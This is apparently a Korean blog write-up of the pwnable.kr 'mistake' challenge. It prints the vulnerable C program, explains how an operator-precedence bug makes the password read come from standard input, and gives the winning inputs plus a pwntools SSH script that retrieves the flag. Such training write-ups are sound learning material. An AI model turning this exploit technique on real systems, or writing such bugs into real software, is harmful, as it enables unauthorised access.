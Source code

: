 ```yaml
---
title: "[pwnable.kr]Toddler/mistake"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180057
category: write-up
date: 2018-09-18 00:00:00 +0900
modify_date: 2018-09-18
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png
---
```


-----

```
We all make mistakes, let's move on.
(don't take this too seriously, no fancy hacking skill is required at all)

This task is based on real event
Thanks to dhmonkey

hint : operator priority

ssh mistake@pwnable.kr -p2222 (pw:guest)
```

-----

```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```

`mistake.c`파일을 열어보면 위와 같다.

-----

### 0x00. Analysis

무작위공격을 방지하기 위해 최대 19초의 sleep을 걸어준다.

그리고 `password` 파일을 열어 내용을 읽어 `pw_buf`에 저장한다. 이후 사용자로 부터 비밀번호를 입력받아 1과 xor한 후 그 값을 `pw_buf`와 비교하여 맞으면 문제가 풀린다. 

Really???

이렇게 코드를 분석 했다면 **당신은 문제를 풀 수 없다. ㅋㅋㅋㅋㅋㅋ**

-----

### 0x01. Real Analysis

```c
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
    printf("can't open password %d\n", fd);
    return 0;
}
```

이 부분을 자세히 살펴보자. 

```c
fd = open("/home/mistake/password",O_RDONLY,0400) < 0
```

특히 이부분이다.

우리가 순간적으로 코드를 분석 할 때, password파일을 열고 해당 파일의 디스크립터 번호가 fd에 들어가며 그 값이 0보다 작으면 if문이 실행된다고 생각하지만...

**[!] 아니다.**

소스코드를 보면 연산자가  2가지가 존재한다. `=` 와 `<` 가 있다. 두개의 연산자 중에서 `<`가 우선 순위가 더 높다.

이렇게 되면 분석이 완전히 달라진다.

`open()` 함수가 실행되고 나서 파일 디스크립트 번호가 부여된다. 파일이 존재하면 이 값은 항상 0보다 클 것이다. 예를들어 `3`이라는 값을 부여받았을 때, `3 < 0` 의 결과는 `False`가 된다.  False는 `0`의 값을 가지므로, `fd`에 `0`이 대입되게 된다.

```c
if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
    printf("read error\n");
    close(fd);
    return 0;
}
```

이후 if문에서 `read`가 실행되는데, 이때 `fd`값이 `0` 이므로, 키보드로 부터 값을 입력받게 된다.

> 그래서 19초가 지나도 반응이 없다가 엔터를 쳐야 "input password :" 텍스트가 보였던 것!!!

따라서, 사용자가 `pw_buf`와 `pw_buf2`의 값을 모두 입력할 수 있다는 것이다.

-----

### 0x02. Exploit

`pw_buf2` ^ `1` = `pw_buf` 이면 되므로,

```
mistake@prowl:~$ ./mistake
do not bruteforce...
1111111111
input password : 0000000000
Password OK
Mommy, the operator priority always confuses me :(
```

끄읏....!!

-----

```python
from pwn import *
import time

conn = ssh("mistake", "pwnable.kr", port=2222, password="guest")
p = conn.process("./mistake")

p.recv()
time.sleep(20)
p.sendline("1111111111")
p.recvuntil("input password : ")
p.sendline("0000000000")

print p.recv()
p.close()
conn.close()
```

-----

